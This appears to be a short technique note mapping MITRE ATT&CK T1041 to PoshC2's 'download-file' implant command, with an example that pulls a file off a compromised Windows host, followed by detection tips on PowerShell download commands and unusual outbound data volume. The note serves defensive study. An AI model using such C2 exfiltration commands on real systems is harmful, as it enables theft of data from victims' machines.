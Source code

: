 # [Exfiltration Over Command and Control Channel](https://attack.mitre.org/techniques/T1041/)

## **Exploit Description:** 

Download command in PoshC2

## **Exploit syntax:**

* Download file directly from implant
```powershell
download-file <file path> 
Example: download-file 'C:\\Users\\Public\\SuperSecretData.txt'
```

## **Detection Technique:**
* Investigate powershell with the “download” command.
* Investigate increased data transfer external to the network during a network connection.
* If beacon traffic has been baselined, use the knowledge of the amount of `destination.bytes` and compare it to any amount significantly larger than what was known to be "standard." 
